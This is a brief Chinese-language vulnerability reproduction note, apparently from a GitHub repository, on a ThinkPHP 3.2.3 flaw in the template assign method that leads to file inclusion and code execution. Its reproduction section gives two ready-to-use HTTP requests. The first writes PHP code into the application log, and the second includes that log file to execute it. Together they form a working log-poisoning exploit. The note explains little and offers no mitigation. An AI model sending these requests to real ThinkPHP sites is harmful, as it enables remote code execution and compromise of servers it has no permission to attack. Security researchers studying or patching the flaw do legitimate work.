


# 0x01-漏洞浅析
该漏洞产生的根本原因是，在业务代码中对模板赋值方法assign的第一个参数传入携带攻击代码的路径，导致模板路径变量被覆盖为携带攻击代码路径，导致文件包含，进而代码执行

# 0x02-影响版本
待测试

# 0x03-环境搭建
phpstudy8.1.1.3 + thinkphp3.2.3  
搭建过程见：https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ  

# 0x04-复现过程
```
GET /thinkphp-3.2.3/index.php?m=--><?=phpinfo();?> HTTP/1.1
```
  
  
```
GET /thinkphp-3.2.3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/22_03_21.log HTTP/1.1
```
  
  

# 0x05-需要注意
暂无